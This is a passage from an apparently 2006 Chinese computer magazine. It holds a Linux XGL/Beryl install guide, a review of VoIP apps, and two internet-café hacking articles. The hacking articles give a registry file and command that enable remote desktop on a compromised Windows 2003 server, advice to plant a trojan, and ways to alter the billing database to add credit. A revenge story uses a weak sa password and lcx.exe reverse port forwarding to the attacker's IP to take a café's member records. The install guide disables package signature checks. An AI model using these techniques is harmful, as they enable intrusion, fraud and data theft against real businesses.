- 2. 修改 `/etc/yum.repos.d/fedora-xgl.repo` 文件，将 `gpgcheck=1` 替换为 `gpgcheck=0`。

- 3. Fedora 6 的用户需要做这一步，Fedora 5 的用户则不需要了。将 `/etc/yum.repos.d/fedora-xgl.repo` 文件中以下内容替换。

```bash
http://fedoraxgl.tuxfamily.org/repository/$releasever/$basearch
```

替换成：

```bash
http://fedoraxgl.tuxfamily.org/repository/5/$basearch
```

- 4. 安装 XGL 软件包。

```bash
yum clean all
yum --enablerepo=fedora-xgl glitz glx-utils libsvg libsvg-cairo xorg-x11-server-Xgl xgl-hardware-list compiz
```

- 5. 配置 XGL。

```bash
gnome-xgl-switch --enable-xgl --auto
```

在这个过程中对所有问题都选择“y”。

- 6. 修改 `/etc/gdm/custom.conf` 文件。

```bash
GdmXServerTimeout=60
```

- 7. 安装 Beryl：

```bash
su
cd /etc/yum/repos.d/
wget http://wilsonet.com/packages/beryl/beryl.repo
yum -y install beryl-core beryl-manager beryl-plugins beryl-settings emerald emerald-themes
```

- 8. 执行命令：

```bash
beryl-manager
```

### 2. Ubuntu 6.10

Ubuntu 下常用的有两种方法，这里只介绍比较安全的一种。所谓安全，是指不影响其他的环境，哪怕你的安装出错了，并不影响我们原来 KDE 或者 Gnome 的使用。

- 1. 将系统升级到最新：

```bash
sudo apt-get update
sudo apt-get dist-upgrade
```

- 2. 添加 Beryl 仓库：

```bash
sudo gedit /etc/apt/sources.list
```

- 3. 将以下内容加入文件中，保存。

```bash
deb http://www.beerorkid.com/compiz edgy main-edgy
deb http://media.blutkind.org/xgl/ edgy main-edgy
deb http://compiz-mirror.lupine.me.uk/ edgy main-edgy
deb http://ubuntu.compiz.net/ edgy main-edgy
```

- 4. 导入 GPG 密钥：

```bash
wget http://www.beerorkid.com/compiz/quinn.key.asc -O- | sudo apt-key add -
wget http://media.blutkind.org/xgl/quinn.key.asc -O- | sudo apt-key add -
wget http://compiz-mirror.lupine.me.uk/quinn.key.asc -O- | sudo apt-key add -
wget http://ubuntu.compiz.net/quinn.key.asc -O- | sudo apt-key add -
```

- 5. 更新仓库：

```bash
sudo apt-get update
```

- 6. 安装软件包：

```bash
sudo apt-get install xserver-xgl libgl1-mesa xserver-xorg libglitz-glx1 beryl beryl-core beryl-manager beryl-plugins beryl-plugins-data beryl-settings emerald emerald-themes
```

- 7. 为 XGL 制作一个启动脚本：

```bash
sudo gedit /usr/bin/startxgl.sh
```

- 8. 加入以下内容：

```bash
Xgl :1 -fullscreen -ac -accel xv:pbuffer -accel glx:pbuffer & sleep 2 &&
DISPLAY=:1
### Start GNOME
exec gnome-session
```

- 9. 给脚本赋予执行权限：

```bash
sudo chmod 755 /usr/bin/startxgl.sh
```

- 10. 在 GDM 中加入启动 Beryl 的选项：

```bash
sudo gedit /usr/share/xsessions/xgl.desktop
```

- 11. 复制以下代码：

```bash
[Desktop Entry]
Encoding=UTF-8
Name=XGL
Exec=/usr/bin/startxgl.sh
Icon=
Type=Application
```

- 12. 打开菜单 - 系统 - 首选项 - 会话 - 启动程序，加入 `/usr/bin/beryl-manager`、`gnome-settings-daemon` 两项。

- 13. 最后再全面更新一下系统。

```bash
sudo apt-get update
sudo apt-get dist-upgrade
```

重启之后，在 GDM 会话中选择 XGL，就可以进入基于 XGL 的 Beryl 环境了！

## 三、使用

### 1. 主题管理器——Emerald

Emerald 是用来管理窗口标题栏主题的软件（图1），通过它我们更换不同的主题，当然也可以将任何一款主题进行微调：字体、透明度、模糊……之后可以将我们修改后的主题保存为新的主题。

其他部分的色彩依然是采用 GTK 主题，包括图标（这里针对 Gnome 环境）。

### 2. Beryl 设置管理器

Beryl 设置管理器是 Beryl 的后台程序（图2），通过各个插件的调整，你可以选择你想要的效果。

是不是看得眼花缭乱了？几乎每一款选项都有全面的参数供你调整，特效时间、颜色深度、键盘动作、鼠标动作……介绍一些常用的插件的作用吧。

- **Animation Effects**：使得窗口的打开、关闭、聚焦等产生诸如神灯、梦幻、旋转、波浪、缩放等动画效果。
- **Benchmark**：测试 compiz 下的 3D 加速情况。调用方法：super+F12。
- **Blur**：使窗口边框产生磨砂玻璃的模糊特效，默认开启且质量为 fast。
- **Brightness and Saturation**：设置窗口的亮度和色彩饱和度，默认启用。调用方法：按住 ctrl 并滚动鼠标滚轮调节色彩饱和度，按住 shift 并滚动鼠标滚轮调节亮度。
- **Crash handler**：XGL/compiz 崩溃时可以自动重启 XGL。
- **Desktop Cube**：设置 3D 立方体的背景、顶部和底部、速度等，默认开启。
- **Window Decoration**：窗口的边框，配合透明度、饱和度和亮度，默认开启。
- **Fading Windows**：给窗口和其他 GUI 部件提供淡入淡出效果，默认开启。
- **Minimize Effect**：对窗口最大化/最小化过程进行渲染，默认开启。
- **Move Window**：移动窗口，可以调整移动时的透明度，默认开启。调用方法：按住 alt 和鼠标左键，出现一个十字架，或者组合键 alt+F7。
- **Negative**：使整个桌面或者当前窗口反色。调用方法：super+m，super+n。
- **Place Windows**：打开窗口时放到合适位置，默认开启。
- **Desktop Plane**：将所有窗口放在一个平面上。不是很好看。
- **Put**：将窗口放到当前工作区的上、上中、上右、左、正中、右、左下、下中和右下，以及放到其他工作区。自己可以定义组合键。
- **Implements reflections on decorations**：将一张 png 格式的图片作为窗口边框的背景。不建议开启，与 blur 插件有点小冲突。
- **Resize Window**：改变窗口的大小，默认开启。调用方法：alt+鼠标中键（即按下滚轮）或者 alt+F8。
- **Rotate Cube**：旋转 3D 桌面。
- **Scale**：像 mac 一样平铺窗口，默认开启。调用方法：鼠标移到屏幕四角（严格讲，右下角不是该插件的作用，而是 Shows the desktop 插件的）或者按 F8、F10、F11、F12。
- **Screenshot**：抓鼠标选定的区域的图。调用方法：super+鼠标左键（按住并选定一块区域）。
- **Shows the desktop**：显示桌面，其实是将窗口向屏幕的上下或者其他地方移动，默认开启。调用方法：按 F7，或者鼠标移到屏幕右下角。
- **Set Window Attribs by various criteria**：单独设置某些桌面元素如窗口、菜单、面板等的属性（如透明度、色彩饱和度、亮度等）。
- **Application Switcher**：切换窗口实现胶片预览效果。除了当前窗口其他都半透明。默认开启。调用方法：alt+tab 等，可自定义。
- **Window focus leaves a trail**：依照窗口未被使用的时间改变亮度、色彩饱和度和不透明度，默认开启。
- **Water Effect**：使屏幕产生雨点效果、水波纹效果以及窗口标题栏的水波效果。调用方法：shift+F9，shift+F8，可自定义。
- **Wobbly Windows**：使窗口等产生凝胶效果（像橡皮糖一样），默认开启。
- **Zoom Desktop**：放大屏幕，默认开启。调用方法：super+鼠标滚轮或 super+鼠标右键。


最后奉献一张桌面截图，开了一个视频文件，加上 75% 的透明度，桌面在旋转的过程中。另外 Gnome 文件管理器对视频文件是有预览功能的（图3）。

# 编辑点评

本文基于两个流行的系统手把手地带大家体验了 XGL，但就小编自己试用的过程中，多多少少还是会遇到一些问题的。建议大家遇到问题的时候多到论坛上来讨论，这样我们也可以给大家最及时的帮助！个人认为 XGL 最实用的两个功能是显示桌面（默认快捷键 F6）、平铺软件（默认快捷键 F8）。

# 泡泡吧

对于刚接触 Linux 的小菜们，经常出现的想法可能是：Windows 能做的 Linux 能做么？而 lala 的一个朋友就一直为视频聊天发愁，lala 自己在刚接触 Linux 的时候第一个考虑的就是 QQ！看来，沟通是无比重要的。前期杂志带大家玩转了流行的聊天软件，这次就带大家认识几款跨平台的语音电话软件吧。


# 通讯无极限

## 一、Skype

Skype 恐怕是在国内最火爆的语音电话软件了。虽然中国没有开通这个服务，但是依然可以通过欧元来购买通话时间。

目前最新的 Skype for Linux 版本为 1.3.0.50，你可以在 Skype 论坛（http://forum.skype.com）上下载到 Skype 的 RPM、deb 以及二进制版本（图1）。

Skype Linux 是基于 QT 的，对于 KDE 用户来说，这是比较好的选择。


## 二、Gizmo

Gizmo 是一款类似于 Skype 的软件，据使用者说它更加小巧、轻便。但在功能上绝不逊于 Skype！同样，Gizmo 拨打网络到网络的电话是免费的，而使用网络到电话的服务则是付费的。

目前 Gizmo 的最新版本为 1.10.40，值得一提的是 Gizmo 在 Linux 下的开发是基于 Gnome 环境的，所以推荐 Gnome 用户使用 Gizmo，通常你会获得比 QT 类程序更好的稳定性（图2）。

## 三、Wengo

在笔者个人看来 Wengo 是同类产品中最强的！Wengo 自 05 年开始开发以来就遵循了 GPL 协议，我们可以称它为 Open Wengo。为什么说它强呢？因为 Wengo 是个铿锵玫瑰——唯一一款可以在 Linux 环境下视频聊天的软件。

曾经一直猜想这应该是广告投资巨大的 Skype 所第一个实现的，没想到是 Wengo。

Wengo 也是基于 QT 的程序，不过在 Gnome 中也可以良好地使用。Wengo 不但在软件上功能强大，更是给出了同类软件中价格最低的承诺！个人强烈推荐（图3）！

三款软件想必已经可以满足大家一定的需要，在此只是抛砖引玉，希望大家有更多有趣的东西可以分享。


> **编辑点评：** 正如作者所说，沟通在现在的社会是相当重要的。文中所列举的几款语音软件各有千秋，还有不少优秀的软件（比如 Gnome 默认就安装了一个语音软件）等待我们去发掘。对于大众，我们没必要用研究的心态去接触 Linux，玩玩的心态就可以了。这可以帮助我们更轻松、更快地加入这个团体。


> **星言“兽”语：** 伴着冬天“喀嚓”的脚步声，12 月也悄然而至。要说悄然似乎有些不恰当，因为西北风刮得是相当的猖狂，偶都不想出被窝了。不过还好，网吧的空间可以给我带来一小些安慰。近几个月有个叫兜兜的是和无意网络过不去，在 10 月的泡吧中他又一次表明自己是一坨和“无意”无缘的精神，坚决贯彻下去，相信大伙都还“心有余悸”。本期兜兜经过一个月的修炼，再次出招，直指无盐网吧的门！敬请关注泡泡吧 2006 年终特别版——一个傻头……哦，不，是无盐，其实不是我不想黑你！最后送广大菜友一句颇有技术含量的话：天气凉了，记得把开裆裤接掉！

# 其实不是我不想黑你

## XP 无盘大解密

- 从本文你可以学到：
- 深入浅出熟悉当今主流的 XP 无盘系统
- 针对以往实例中隐含条件的举例
- 提高自身对实例的客观认识

### 一、前言

曾几何时我也和很多初学者一样，追寻着各式各样的入侵技巧，尤其是被各大论坛或网站所公布、转载的，可有些人的教程写得实在太过晦涩不明，琢磨了许久也琢磨不出个所以然来，还很天真地以为既然有教程的样本出来就一定做得出，反复地试验后自己也能够得到。现在不行只是自己的水平不够高。但当我越来越靠近现实的一面时，才发现一切并不是仅仅掌握了原理就能运用到现实中的，之所以失败，只是自己在重复别人的“机械运动”罢了。的确，网吧这个环境是我们最容易接触到的，但仅仅是处在工作站端的我们，能看清楚所有现象背后所掩盖的真相吗？很多“高手”摆实例，讲其方法如何的高超，当你带着疑问去询问他时，他却打着“我只能授之于渔而不能授之于鱼”的幌子来敷衍你，吊完你的胃口还让你摸不到北，未免做人太不厚道了。为什么我写文章一直遵循从客观条件之上谈方法，而不是单纯地给你一个实例呢？就是想尽可能地把最真实、最客观的一面告诉大家，虽不能代表全部，至少也能让你有所启发。只有学会并善于去分析，才能使方法在实践中融会贯通，并不是我的文章太过于偏向理论，只是你对无盘了解得太少了，习惯了看别人只说方法的实例。

在你往下看之前我先声明一下：我现在身份是一家大型网络会所的网管，是完全有条件去伪造一篇入侵实例的文章的，不过大家请放心，我没有必要那样去做。因为在这几年里我也曾多次因失败而迷惘过，我心里能体会得到大家需要的是什么，所以我会对大家负责的。本文重在解惑，并不是入侵实例的文章。相信到最后，你应该就能体会到究竟是自己水平的问题，还是你对无盘真的了解太少了。

### 二、理论分析篇

#### 1、发展过程

想必以前当过网管的人都会有这样的经历：每天都要疲于奔命，需要经常装游戏、GHOST、杀毒；白天有客人要用机器，到深夜是否有时间去做维护的工作还两说呢……

针对网吧降低硬件成本、提高运行性能、简化管理维护这些迫切需要，很多技术公司为此推出了各种无盘系统，最大限度地满足网吧这个特殊行业所提出的多种要求。对整个无盘系统的维护实质上就是对服务器的维护，摆脱了有盘网吧那样需对每个工作站一一处理的烦恼。

#### 2、工作原理

现在市场上无盘系统很多，各个公司虽都有自己独到的一面，但所应用的技术基本一样，只是设置略有不同罢了。这里只解释些经常被人误解的概念性问题。

##### 1）什么是无盘网络，无盘工作站工作的原理是什么？

即一个局域网中的所有工作站上都不安装硬盘，全部由网络服务器来启动，这样的网络就是无盘网络，这些工作站被称为无盘工作站。所谓无盘工作站是指无软盘、无硬盘、无光驱的模式下通过网络方式来工作的计算机。由于无盘工作站上没有硬盘，所以工作上所使用的程序、数据都必须放在网络上的文件服务器（即网吧服务器）中。无盘工作站在机器启动时不能从本地磁盘装入操作系统，必须在工作站上的网卡上安装远程启动 ROM 芯片（BootROM）。远程启动 ROM 在机器加电时能自动从网络服务器上来读取预先准备好的工作操作系统映像文件，并调入工作的内存（加载），最后将控制权交给该操作系统，从而实现工作站的引导。

##### 2）服务器与工作站之间的联系与区别

首先，用户在工作站端所能看见的一切都是包含于服务器内部的，简言之就是后者的整体内容大于前者。而那些访问硬盘限制的利用方法访问的只是服务器共享给了工作站端的所有盘符，用户在工作站端看不到，也无法看到除此以外的盘符。这方面我以前强调过很多次了。

其次，在 XP 无盘的网吧服务器上所看见的，如：“锐起无盘 XP 管理器”、“逍遥游 2006 无盘网络服务器”、“EZdisk 无盘服务器”等类似的程序，就是所谓的“虚拟文件系统”。它是被安装在服务器系统中用来设置并管理工作站文件的程序，但并不是固定的，如图1。这是“锐起无盘 XP 管理器”的主界面，主界面中列出的全是工作站的信息，如工作站的名称、IP 地址、启动磁盘（用户在工作站端所见的盘符）等。界面上部的菜单和工具栏可以对工作站进行设置，如新增、修改、删除工作站，禁用/启用工作站，把工作站设为超级用户、转储工作站的数据等。


再次，很多人把网吧限制多的原因归功于网管，事实上是网管也好，hack 也罢，所面对的都只是别人的程序，只是两者身份所处的角度不一样罢了。被人忽略的这个“虚拟文件系统”只是管理工作站的日常文件操作，计费软件也只是进行工作站的收费操作，两者与工作站、服务器是相互依存的关系并没有必然联系，网吧业主可以随意选择任一家代理商的产品进行安装。而用户在工作站端限制的多少主要取决于工作站系统，服务器只作为文件存储和连接外网的平台而已。为什么拷盘的技术员只是拿一个母盘就来给网吧做系统？他只需要把自己做的系统安装到服务器内，再通过“虚拟文件系统”进行必要的设置后，用户在工作站端使用的就是被他安装的系统了，只有部分限制是来自于程序的限制（如 magic98、超级兔子等）。如图2所示，这是无盘安装流程图。

最后，目前的 XP 无盘，基本上都是基于 BXP 架构的系统，由于 BXP 架构的系统必须依托在 2003 服务器上，也就是说现在大多 XP 无盘网吧的服务器系统是 Windows 2003 高级服务器版，并以 Windows XP SP1 或 SP2 作为工作站系统。

##### 3）无盘服务器数据是如何得到保护的

首先不得不提的就是“虚拟文件系统”，如图3所示。这是“锐起无盘 XP 管理器”的目录设置选项。这在该服务端程序第一次运行时就要求指定的，以后该程序就会按设置有选择性地把用户对系统盘文件的修改转移到了用户盘。在 XP 无盘网络中，工作站从服务器映射两类网络硬盘：系统盘和工作站盘。所有的无盘工作站都是共享系统盘，工作站盘为虚拟文件系统所用的盘。当有应用程序或用户读系统盘时，虚拟文件系统充作用户，所有的用户共享系统盘所在的目录（这个过程是指从工作站开始启动到进入桌面时）。而当应用程序或用户修改或写系统盘时，虚拟文件系统则把写操作转移到工作站盘上（这个过程是指进入桌面后的大部分操作）。所以用户在使用的时候感觉就和有盘的电脑没多大差别，可以随意读写以及删除数据。但事实上服务器本身的原始数据并没有变化，也不会影响其他用户的工作站使用。那它又是如何清除因用户操作所产生的所有数据呢？如图4所示。


这是“锐起无盘 XP 管理器”的配置工作站选项。其中的“启动时清除工作站所有临时数据”选项被选中，工作站重启后这些临时数据（即因用户的操作所产生的数据）将被自动清除。

而产生的所有数据，将全部被清除，工作站便恢复到原先预设的状态。现在你明白了为什么无盘工作站重启后会被还原的原因了吧（注：被虚拟转存了数据的盘也是实际存在的硬盘，其作用是用来暂存数据的，即临时数据，通过该设置后就能省去手动去清理的麻烦）！

#### 小提示：

当网络中的两台工作站同时要对服务器共享出来的某一个文件执行写入，其中一台工作站会报告错误。这是因为同时只能有一个用户写这个文件。尤其是大部分用户都在使用同一个应用程序的时候，就会更严重，轻则导致一些用户的应用程序不能正常运行，重则导致整个系统的崩溃。这个现象就是“共享冲突”。98 无盘工作站经常频繁死机的原因多半由此。而 XP 无盘所应用的虚拟转存技术，既保证了用户可以共享系统文件和应用程序文件，又可以保证了每个工作站的操作不会影响到其他的工作站，从而实现了共享冲突保护功能以及安全性保护功能。

其次，每个无盘公司都说自己的产品如何如何地安全，事实上呢？想必常上网的朋友应该都有种体会，即使装了杀毒、防火墙软件，也经常有中毒或被攻击的事情发生。而所谓的安全其实只是服务器相对工作站安全，并不代表服务器和工作站不会中毒或被攻击，只是非恶意的情况下某一工作站不会影响到服务器和其他工作站罢了。通过前面对“光纤系统”的介绍已经很难得地解释了这点。那服务器又是如何抵御外来的威胁呢？其实主要还是根据服务器系统设置的严格度而定吧！毕竟很多工具也要满足其特定运行条件才行。总结以往当网管的经历，我所见过的 98 无盘服务器通常不装或都安装了“北信源杀毒”程序，只是不用罢了，而 XP 无盘通常也不装或只装在工作站的系统里。原因都说是什么装杀毒、防火墙软件会影响网速。其实纯属讹传，只是网吧业主为了降低成本，没有按标准去配置服务器罢了。至于安全不安全也要看你选择的代理商的技术怎么样，这可是完全区别于自建类网吧的哦！

### 三、具体概况介绍

看了上面的理论篇可能又有朋友早已不耐烦了，那现在咱们就把问题具体化，看看现实中的环境又是怎么样的呢？按规矩先介绍下环境：

#### 1、网络环境

如图5所示，这是网吧拓扑结构示意图（不代表实际拓扑结构）。


大致的组网情况是：光纤直接接到网吧，然后通过一光纤收发器将光信号转换成 10M/100M 电信号，用一路由器作为局域网的网关。此路由器是专门用于路由转发、地址映射的硬件设备，一端与光纤收发器连接，另一端与交换机连接，连接介质均为网线。用一主干交换机与局域网内各分支互连。其中除收费机用的是单独的显示器外，其余服务器都共用一个显示器、键盘和鼠标，操作时通过切换器切换即可（哈哈～别让那两个显示器给骗了哦）。

#### 2、服务器区

##### 环境：

- VOLANS 飞鱼星高性能企业级宽带路由器：内网 IP 192.168.1.1
- 安全审计系统：被公安局安装了两人公司的“网络神探”安全审计系统，内网 IP 192.168.1.216
- 大厅一服务器：锐起 XP 无盘系统，安装了 Symantec Antivirus 防火墙企业版，内网 IP 192.168.1.200
- 大厅二服务器：超易 XP 无盘系统，安装了 Symantec Antivirus 防火墙企业版，内网 IP 192.168.1.201
- 包厢服务器：DOL 魔盘系统，内网 A 卡 IP 192.168.1.240 和 B 卡 IP 192.168.1.241
- 电影服务器：网乐视频分享平台客户端，内网 IP 192.168.1.170
- 计费机：万象网管 2004，安装了 Symantec Antivirus 防火墙企业版，内网 IP 192.168.1.245

##### 补充说明：

- 1）路由器默认密码已被更改，所有服务器都存在默认共享，但只有电影服务器和计费机能挂出，存在轻易可得的情况。至于“网络神探”嘛，公安局给强制装的。
- 2）“DOL 魔盘系统”是来这个网吧工作之后才知道的，它采用 DOS 引导网络存储系统软件，服务器端是字符界面的操作，有兴趣的朋友可以去官方网站 www.diskonlan.com/download.asp 下载帮助文档看看（这算是至今为止公开性最全的内部资料了）。
- 3）现在较大规模网吧的工作站桌面上一般都有“XX 在线影院”和“本地电影”两个看电影的图标。严格点说其实它们都是本地电影（即保存在网吧电影服务器中的），只不过是把各种电影集中处理的两个不同的平台而已。那它又是如何将电影服务器上的电影提供给用户观看呢？主要有两种方式：一种是通过共享，另一种是作流媒体服务器。前者主要被 98 无盘网吧的电影服务器所用，后者稍微复杂，并且对机器硬件要求也高许多。当然我们还可以从些常规现象去辨别，如图6所示。

| 对比项目 | 网吧里看的电影盘 | 视频平台 |
|---|---|---|
| 访问播放应用 | 占用少 | 占用少 |
| 速度反应 | 快 | 共享、流媒体传送可选择，快 |
| 访问方式 | 简单的 Web 页或本地文件夹 | 本地 Web 页和外网 Web 页均可选择 |
| 内容更新 | 固定时间更新，更换不齐 | 资源全面，更新及时、快速 |
| 综合对比 | 大多觉得登录一次即可，实际上传播只适合本地，外网平台用户电影盘裸露也不奇怪 | 网吧在线影院可满足用户同步、管理更新，本地内容视频速度变化不明显 |


像我现在所在的网吧就是“在线影院”和“本地电影”里面的内容是完全一样。


的，如图7、图8所示。

有时候扫到个弱口令的账号也没有用，仅仅是供上网者使用的（权限很低，使其无权删除该服务器上的文件，甚至无权访问其他分区内容）。

#### 3、工作站区

一共有164台工作站，并被三台文件服务器划分了三个区域。其中大厅一、二服务器各带50台工作站，其余的规划给包厢服务器，用A、B卡各带一部分。因为三个区域是不同的三个技术员做的系统，所以对应区的工作站的文件内容、限制也不一样。总之只是把网络游戏做了次统一。

那hack在工作站端又是如何收集信息的呢？（当然不会有我这么详细的，呵呵）。通常是先扫描，如图9所示。

这是扫描后的结果。很明显并没有扫到全部的服务器。有弱口令的也只扫到了电影服务器和计费机，但据用X-CSAN对服务器一块扫后，却只扫到些端口和路由信息，其中包厢服务器扫不到任何信息，那hack现在也只能从最薄弱的地方下手了。入侵计费机给自己会员卡加钱了。这里我就不具体演示了，只说一下以后教程中入侵时的细节部分。

首先，我们从ipc$连接失败讲起，感觉这似乎是一个很大的缺口，大家可以先去百度搜索一下，你会发现多是以利用默认共享、弱口令的方式入侵的，仿佛都非要用到ipc$连接似的！看别人说得那么容易，但事实上，管理员会想尽一切办法屏蔽掉这个众人皆知的漏洞，让你不至于很轻松地就进去。虽然会有一些人为疏忽所导致的空口令或者弱智密码，但这些毕竟是少数，或许今后你最大的可能就是以极小的权限甚至是没有权限进行连接，你就会发现ipc$连接并不是万能的，甚至在服务器不开启ipc$共享时，你根本就无法连接。这里举些常见原因为例，至于其他的不确定因素，就靠大家自己体会和试验了。


图9 扫描结果

Windows 2003高级服务器版，而2003开终端的方法和2000不一样，它不是通过安装，因为2003已经自动安装了远程桌面功能，只是启动不启动的问题。虽然安装时默认是已经安装和启动的，但要远程连接，还需做一步功夫，最简单的方法远程修改注册表（这种方法好处在于不用桌面交互），你总不能让管理员看到桌面的鼠标到处乱窜吧。下面给出注册表修改方法：新建一注册表文件，输入：

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"fDenyTSConnections"=dword:00000000
```

假如该注册表文件存为3389.reg，只要把3389.reg上传到肉鸡执行 `regedit /s 3389.reg`，这样就可以远程连接了。

2）2003和XP一样并不是一个标准的多用户系统，同一时间只能允许一个用户连接和登录，建议使用system权限进入2003主机（基本上所有的木马程序都是用system权限登录的）；所以通过各种方法入侵2003主机后的第一步并不是添加一个用户名，而是上传一个木马程序更为实际。因为在没有开启终端或仿真终端的情况下，就算告诉你一台2003主机的用户名和密码，你可能也无法添加。所以若能用木马控制的，就不必再去弄3389肉鸡了，免得偷“鸡”不成反蚀把米。

> ipc$连接失败的原因解惑：
>
> ①你的系统不是NT或以上操作系统；
> ②对方没有打开ipc$默认共享；
> ③对方未开启139或445端口（或被防火墙屏蔽）；
> ④你的命令输入有误（比如缺少了空格等）；
> ⑤用户名或密码错误（空连接当然无所谓了）！

另外，你也可以根据返回的错误号分析原因：

- 错误号5，拒绝访问：很可能你使用的用户不是管理员权限；
- 错误号51，Windows无法找到网络路径：网络有问题；
- 错误号53，找不到网络路径：IP地址错误；目标未开机；目标LanmanServer服务未启动；目标有防火墙（端口过滤）；
- 错误号67，找不到网络名：你的LanmanWorkstation服务未启动或者目标关闭了ipc$；
- 错误号1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个ipc$，注销除掉再连；
- 错误号1326，未知的用户名或错误密码：原因很明显了；
- 错误号1792，试图登录，但是网络登录服务没有启动：目标NetLogon服务未启动；
- 错误号2242，此用户密码已过期：目标有账户策略，强制定期要求更改密码。

其次，若你进入之后，是想长期控制它，还是只给自己的会员卡加钱呢？又或者……

### 四、实践解惑篇

#### 1、关于控制方面

1）前面已介绍过现在大多XP无盘网吧的服务器系统是

#### 2、关于入侵数据库方面

##### 1）收费机具体位置的判断

如果你有物理上接触过服务器，你就会发现现在网吧的每台服务器上都安装了收费管理软件，这是技术员最初帮网吧做服务器系统时就安装好的，当然未必都会去用。而对于hack来说，至少要知道用来计费的数据库存放在哪台服务器上才行（即计费机的IP）。关于这个问题我以前就介绍过，而有的文章判断的方法是说利用WinHex在内存找服务器IP，或者用Ipconfig命令看自己的网关地址。其实严格地来说，这两种是文件服务器上安装的收费管理软件，并且该服务器又是接外网的，才能说这个判断方法是对的。也就是说，该服务器是文件服务器、代理服务器和计费机三者的总和。现实中估计也只有小型网吧才有这种可能，但随之而来的管理麻烦将会更多。所以在否定这种现象的同时，方法也随之否定了。这里你只需要明白一点：越大规模的网吧，其服务器的部署就越显得独立，其目的是为了便于以后的安全维护、日常管理和扩展网络。这是网吧组网的设计规律。由此来看，若你只是在工作站端操作，那么是无法直观地去判断其具体IP的，通常只能从网段中针对不同主机名的IP去一一分析。

##### 2）修改数据库的必要条件

若hack利用默认共享等进入了服务器，先要看共享是否有读写的权限（除远控的情况外）。不然就算你找数据库，改了却放不回去，那也只能白搭了！若你有读写的权限，先把数据库复制到本地，但要用右键复制再粘贴，不能直接拖，否则打开会报错，如图10所示。

这和你用工具去打开被映射到本地磁盘路径下的一样也会报错。因为数据库正在使用中，是不能被打开的。还有就是万象数据库用的是Access 97格式，可以用Office办公软件中的Access去打开，但会要求你转换成Access 2000的格式才能打开。


图10 连接数据库发生错误

# 泡泡吧

如果你转换了，即使放得回去也白搭。个人建议最好用“明小子”旁注工具来破解数据库密码和修改内容，最后用右键从本地复制再粘贴回去就可以了。网上曾有文章说，数据库修改好以后不能直接覆盖过去，否则对方的万象会无法响应导致死机。要用replace命令替换对方正在使用中的万象数据库。但经我反复测试，并没有不正常的现象发生，希望高手能帮忙解释一下。

误人子弟。当然也不排除有被人刻意构造的实例，被人说多了，不是真的都变成真的了！以后大家在看别人实例的同时，也应该反思一下为什么他就那么一帆风顺，为什么自己就不成功。本来学习的过程就是怎样掌握本质原理的过程，每一步即使做出来了，也在心里想一下为什么要这么做。多了这么一想，以后遇到同样的问题，大致就知道该怎么解决了。最后奉劝大家一句，入侵网吧容易与否完全取决于你对它了解有多少，不要妄想试图通过几个实例就能掌握一切，一味地崇拜是很容易被蒙蔽双眼的！话已到此也够了，太过直白的话我就不说了，大家自己好好想想吧。

### 五、总结

通过上面针对入侵细节的讲解，再让你回头去看那些入侵实例，是否你还会坚信那所谓的成功呢？至少有一点是不可否定的，大部分教程都不会给出特别的说明，只是单纯地举例操作。这也是为什么当你看了实例之后却仍被失败所困惑着的原因！同时，就是部分人对于网吧的现状认识得并不清楚或片面，而主观地把有盘、98无盘和XP无盘三者混为一谈。其实方法也只是在变相利用罢了，有时间也去网吧多看看，免得好心写出来的东西到头来害人不浅。

> **编辑点评：**
> 兔兔一直致力于无盘网吧的研究，并且已经写了几篇关于无盘的文章，相信没有碰过无盘网络的朋友对这个东东也有了一定的了解了吧？小编我也从中学到了很多东西。无盘在北方还不多见，但是可以预料到它将会成为今后网吧解决方案的主流。掌握无盘网络的相关知识以及安全攻防技术，让我们轻松迎接无盘大潮的到来！


喜欢 rabbitsafe

- 从本文中你可以学到：
- 使用lcx.exe做端口映射
- 如何将MSSQL的数据库文件转换为.mdb文件

# 一、事情起因

约好周末的晚上在网上等好友雪飘（下面简称雪，听着亲切些），可是等了一段时间还没见好友上网。突然，手机响了，屏幕上显示是好友雪的手机号码。雪说，网吧满客了，我要再等等。过了一会儿，雪的QQ头像亮了，雪终于来了。他说网吧的服务态度极度恶劣，等了好久才弄到台机子，学校附近又没有网吧，真郁闷。我说，那我们来教训下这个网吧。提议不错，于是，好友马上在网吧那边行动起来。

# 二、拿下数据库服务器权限

等了大概10分钟，雪发消息过来了。他说，这边网吧有一台主机开了1433端口，应该是数据库服务器，而且和吧台的主机不是一个IP，不管那么多，先扫了下，看存不存在弱口令。又是几分钟过去了，雪发来消息，他说，这个网吧的数据库服务器竟然存在弱口令，而且是用sa超级用户连接的。雪马上用老兵的数据库综合利用工具连接上去，连接成功，而且可以执行系统命令，如图1。

但是数据库服务器除了1433端口，其它的端口全部被关闭了，可能是用TCP/IP筛选把端口屏蔽掉了。好友雪马上用简化版的SQL连接工具连上去，但是一连上就莫名其妙地断开了，在网上下了几个都不行，都是一样的效果，一连上就莫名其妙地断开了。雪马上发信息给我，看我有没有什么好办法。

1433端口的数据库服务器，而且可以执行系统命令，但是不能执行SQL命令，网上的工具全都试过了，一连上去就自动断开。这台数据库服务器极有可能是用来存放网吧会员资料的，只要能执行SQL命令就好办了。

# 三、备份拿下会员资料

它数据库服务器用的是MSSQL，刚好我电脑上也装了，如果能连上去就好了，应该可以查看数据库表的内容，如果真的是会员资料，还可以备份下来。可是对方在内网中啊，怎么可能连上去呢？我马上发消息给好友雪，问他是否能上传工具。他说，可以执行tftp命令，可以上传工具，那就好办了。我不能连它（数据库服务器），那就让它来连我吧，因为我这里是用路由上网，端口可以在路由上开放，相当于是公网。我马上把lcx.exe端口转发工具传给好友雪，让他把工具传上去，看能不能把数据库服务器的端口转发到我本地的端口上来。

首先，我在路由上开放99端口，并记下路由里拨号的公网IP，把它发给好友雪。然后，我在本地上运行 `lcx.exe -listen 99 1433`，开始监听99端口。雪就负责在网吧那边上传lcx.exe工具到数据库服务器上，并在服务器上运行 `lcx.exe -slave 我的公网IP 99 127.0.0.1 1433`。马上，我这边就有反应了，数据库服务器成功反连过来，如图2。

雪在那边打开一个查询IP的网站，查询到的IP地址也是60.190.242.90，说明反连过来的的确是网吧那边的数据库服务器。


接下来，我在本地打开SQL查询分析器，SQL Server处写127.0.0.1，选择SQL Server身份验证，登录名写sa，密码写雪在网吧那边扫描出来的弱口令123456，点击确定，提示连接成功，如图3。


